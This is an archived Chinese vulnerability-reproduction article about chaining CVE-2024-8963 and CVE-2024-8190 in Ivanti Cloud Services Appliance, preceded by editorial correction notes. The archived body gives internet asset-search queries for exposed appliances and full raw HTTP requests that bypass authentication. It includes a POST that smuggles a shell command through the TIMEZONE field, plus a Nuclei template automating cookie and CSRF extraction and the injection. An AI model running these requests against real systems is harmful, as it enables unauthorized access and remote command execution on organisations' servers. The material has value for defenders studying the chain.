








# 【漏洞复现】CVE-2024-8963、CVE-2024-8190

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

## 2026-10-03 公开验证资料补充

CVE-2024-8963 是路径解析导致的未认证受限功能访问；[固定模板](https://github.com/projectdiscovery/nuclei-templates/blob/9e93c63782dbb2b6160e068710d6240f418a3ed6/http/cves/2024/CVE-2024-8963.yaml) 的完整请求只读取 users.php，并检查页面中的用户管理字段。CVE-2024-8190 则是管理员可触发的命令注入，本页 `datetime.php` 请求中 TIMEZONE 是具体输入；组合使用 8963 才能绕过前置认证，不能将 8190 单独改称匿名漏洞。

[8963 CNA](https://cveawg.mitre.org/api/cve/CVE-2024-8963) 与 [8190 CNA](https://cveawg.mitre.org/api/cve/CVE-2024-8190) 均将 4.6 Patch 519 和 5.0 标为不受影响。4.6 Patch 518 及以前是本页链的范围；原 cookie/CSRF 是来源样例，实际实验需同一会话中的有效值。

日期表单会修改时间或时区并启动系统命令。旧模板只匹配 200 且缺回连匹配，不足证明命令执行；完整手工输入仍有技术参考价值。此次完整阅读原文和固定 8963 模板，未运行、未请求目标、未视检截图。

### 独立复核补充说明

本页两个编号分别有不同的具体依据：8963 的固定模板尝试读取受限 users.php 并检查用户管理内容；8190 的手工请求将命令放入 TIMEZONE，正文所述判据是 DNS 回连，相关截图未在本次视检。[FortiGuard 原始分析](https://www.fortinet.com/blog/threat-research/burning-zero-days-suspected-nation-state-adversary-targets-ivanti-csa) 的 CVE-2024-8190 / DateTimeTab.php 小节将 TIMEZONE 与 setPhpTimeZone 明确对应。旧组合模板只有 200 匹配，不能作为命令执行成功的判据；两个步骤的会话、CSRF 与权限条件仍需分别满足。


<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Ivanti CSA CVE-2024-8963+8190 利用链
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：需分8963鉴权路径绕过与8190原需认证命令注入，组合才预认证；GET示例带cookie而模板不带，应解释新会话非已认证
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. frontmatter漏8190
2. 需分8963鉴权路径绕过与8190原需认证命令注入，组合才预认证
3. CSA4.6<519需逐漏洞核首修补丁/EOL，不凭单阈值概括两者
4. GET示例带cookie而模板不带，应解释新会话非已认证
5. Nuclei只匹配200且yourdnslog未替换/没有OOBmatcher，不能确认RCE
6. CSRF和Set-Cookie提取对格式敏感，硬编码示例令牌须重取
7. 改日期/时区为有状态请求，可能业务影响
8. EPM测绘并不专指CSA，无精确官方来源，去邀请码

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 混子Hacker  混子Hacker   2024-12-17 09:56  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
咱得静悄悄的干，输了呢就当没干过  
 【  
摘自-雷军  
】 ——  
  
Ivanti Cloud Service Appliance  
  
Ivanti Cloud Service Appliance  
是一种集成的管理平台，主要用于支持IT服务管理和云服务的自动化，它旨在帮助企业简化和自动化IT流程，提高运营效率。该平台在Ivanti Cloud Services Appliance (CSA) 4.6 < Patch 519中存在CVE-2024-8963路径遍历和CVE-2024-8190命令执行漏洞  
  
  
  
  
  
  
  
  
漏洞信息  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
```
fofa: app="Ivanti(R)-Cloud-Services-Appliance"
Quake：app: "Ivanti Endpoint Manager (EPM)"

# 风里雨里，我都在quake等你。个人中心输入邀请码“lnBNF0”你我均可获得5,000长效积分哦，地址 quake.360.net
```  
  
  
  
  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
```
GET /client/index.php%3F.php/gsb/users.php HTTP/1.1
Host: xxx
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Cookie: LDCSASESSID=kt57k50mb3m48giosk8pikfpk5
```  
  
CVE-2024-8963路径遍历  
  
绕过权限校验访问后台获取敏感数据  
  
  
  
  
CVE-2024-8190命令执行  
  
首先利用前面的CVE-2024-8963获取LDCSA_CSRF和cookie值  
  
  
  
  
  
带上cookie和LDCSA_CSRF再利用CVE-2024-8963访问  
/gsb/datetime.php执行命令  
```
POST /client/index.php%3F.php/gsb/datetime.php HTTP/1.1
Host: xxx
Connection: keep-alive
Content-Length: 211
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: null
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Cookie: LDCSASESSID=f1o2t0t15fi2cdb7pautdgtin2

dateTimeFormSubmitted=1&LDCSA_CSRF=sid:eb6f7c1771acf1f001d1b78059e0e048bbcd2122,1734425798&CMONTH=12&CDAY=17&CYEAR=2024&CHOUR=16&CMIN=30&TIMEZONE=;`ping -c2 -w2 thomas.504c79ddf1.ipv6.1433.eu.org`;&SUBMIT_TIME=Save
```  
  
  
  
dnslog平台收到响应  
  
  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-8963_8190

info:
  name: CVE-2024-8963_8190
  author: Thomas
  severity: high
  description: Ivanti Cloud Service Appliance Path Traversal AND RCE
  tags: Ivanti
  metadata:
    fofa-query: app="Ivanti(R)-Cloud-Services-Appliance"
    
requests:
  - raw:
      - |
        GET /client/index.php%3F.php/gsb/users.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
      
      - |
        POST /client/index.php%3F.php/gsb/datetime.php HTTP/1.1
        Host: {{Hostname}}
        Origin: null
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Cookie: {{cookie}}
        
        dateTimeFormSubmitted=1&LDCSA_CSRF={{LDCSA_CSRF}}&CMONTH=12&CDAY=17&CYEAR=2024&CHOUR=16&CMIN=30&TIMEZONE=;`ping -c2 -w2 yourdnslog`;&SUBMIT_TIME=Save
    
    matchers-condition: and
    extractors:
      - type: regex
        name: cookie
        part: header
        group: 1
        internal: true
        regex:
          - "Set-Cookie:(.*?);"
          
      - type: regex
        name: LDCSA_CSRF
        part: body
        internal: true
        group: 1
        regex:
          - 'name=''LDCSA_CSRF'' value="(.*?)"'
          
    matchers:
      - type: status
        status:
          - 200
```  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
